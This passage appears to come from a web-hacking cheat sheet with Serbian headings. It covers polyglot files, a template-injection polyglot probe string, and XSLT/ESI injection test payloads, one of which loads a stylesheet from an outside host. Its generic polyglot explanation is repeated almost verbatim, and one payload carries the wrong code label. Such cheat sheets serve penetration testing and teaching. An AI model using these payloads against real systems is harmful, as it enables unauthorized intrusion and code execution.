 Polyglots are typically created by taking advantage of the similarities between different file formats. By carefully crafting a file that adheres to the specifications of multiple file types, it is possible to create a polyglot that can be interpreted differently by different applications.

Polyglots can be used in various ways during a web hacking engagement. For example, a polyglot file can be uploaded to a web application that accepts multiple file types, allowing an attacker to execute arbitrary code. Similarly, a polyglot payload can be embedded in a web page, exploiting a vulnerability in the browser or a plugin to execute malicious code.

When working with polyglots, it is important to understand the file formats involved and the specific vulnerabilities that can be exploited. Additionally, it is crucial to test the polyglot in different contexts to ensure that it behaves as expected and achieves the desired outcome.

Overall, polyglots are a powerful tool in the arsenal of a web hacker, allowing for creative and stealthy exploitation of vulnerabilities. By understanding the principles behind polyglots and their potential applications, hackers can enhance their ability to bypass security measures and achieve their objectives.

```python
{{7*7}}${7*7}<%= 7*7 %>${{7*7}}#{7*7}${{<%[%'"}}%\
```

## [XSLT Server Side Injection](../xslt-server-side-injection-extensible-stylesheet-language-transformations.md)

### Osnovni testovi

```markup
<xsl:value-of select="system-property('xsl:version')" />
<esi:include src="http://10.10.10.10/data/news.xml" stylesheet="http://10.10.10.10//news_template.xsl"></esi:include>
```

### Poligloti

A polyglot is a file that can be interpreted as different file types depending on the context in which it is executed. In the context of web hacking, polyglots can be used to bypass security measures and execute malicious code.

Polyglots are typically created by taking advantage of the similarities between different file formats. By carefully crafting a file that adheres to the specifications of multiple file formats, it is possible to create a polyglot that can be interpreted differently by different applications.

Polyglots can be used in various ways during a web hacking engagement. For example, a polyglot file can be uploaded to a web application that performs file type validation. If the application only checks the file extension, but not the file content, it may mistakenly interpret the polyglot as a different file type, allowing an attacker to bypass security measures.

Polyglots can also be used to exploit vulnerabilities in specific file parsers. By creating a file that triggers a vulnerability in a particular parser, an attacker can execute arbitrary code or gain unauthorized access to a system.

When working with polyglots, it is important to understand the specifications of the file formats involved and the behavior of the applications that interpret them. This knowledge is crucial for crafting effective polyglots and exploiting vulnerabilities.
